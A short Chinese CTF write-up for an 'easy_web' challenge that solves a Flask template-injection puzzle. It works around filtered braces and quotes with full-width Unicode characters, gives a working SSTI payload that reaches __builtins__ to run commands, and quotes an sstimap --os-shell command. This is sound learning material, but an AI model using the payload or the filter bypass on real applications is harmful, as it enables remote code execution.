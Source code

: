 # easy_web
感觉是ssti注入
![](vx_images/31146363121409.png)
有过滤,
f12还发现
![](vx_images/590448172630820.png)
响应包:(火狐的wappalyzer有问题,用chrome)
![](vx_images/213770497578918.png)
![](vx_images/195311537311106.png)

文章学习:[15394415.html#flask初识](https://www.cnblogs.com/tuzkizki/p/15394415.html#flask初识)
不怎么会ssti,学习一下题解吧!
这里{被过滤,实在不知道用啥,题解用了特殊符号转换
︷︷config︸︸
本题的单引号也被过滤,用request.args.x/header/cookie,传参绕过
还可以
```
原字符：'（半角单引号，ASCII 字符）
​替换后的字符：＇（全角单引号，Unicode 字符 ＇，常用于中文排版）
```
payload:str=︷︷().__class__.__bases__[0].__subclasses__()[177].__init__.__globals__.__builtins__[request.args.x](request.args.y).read()︸︸

最后用sstimap试一下,
```
python sstimap.py -u "http://61.147.171.105:49714/"  --data "str=1" --os-shell

```
....sstimap没有绕过功能好像